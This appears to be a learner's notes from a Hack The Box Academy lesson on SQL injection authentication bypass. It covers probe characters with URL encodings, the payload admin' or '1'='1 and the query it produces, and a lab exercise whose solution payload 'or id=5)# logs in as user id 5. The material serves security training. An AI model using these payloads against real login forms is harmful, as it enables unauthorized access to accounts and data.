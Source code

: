 
## SQLi Discovery

Before we start subverting the web application's logic and attempting to bypass the authentication, we first have to test whether the login form is vulnerable to SQL injection. To do that, we will try to add one of the below payloads after our username and see if it causes any errors or changes how the page behaves:

|Payload|URL Encoded|
|---|---|
|`'`|`%27`|
|`"`|`%22`|
|`#`|`%23`|
|`;`|`%3B`|
|`)`|`%29`|

## OR Injection

```sql
admin' or '1'='1
```

How will it look like:
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

> Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.

Q: Login as the user with the id 5 to get the flag.

![Admin panel showing an SQL query execution: SELECT * FROM logins WHERE (username='admin'--' AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f'; with a message: Login successful as user: admin"](https://academy.hackthebox.com/storage/modules/33/paranthesis_success.png)

HINT: Look at what the original query is doing, and try to inject a payload that changes its logic, and always logs is as user id 5. Hint 2: use OR.

'or id=5)#

FINAL: Executing query: SELECT * FROM logins WHERE (username='' OR id=5 )#' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
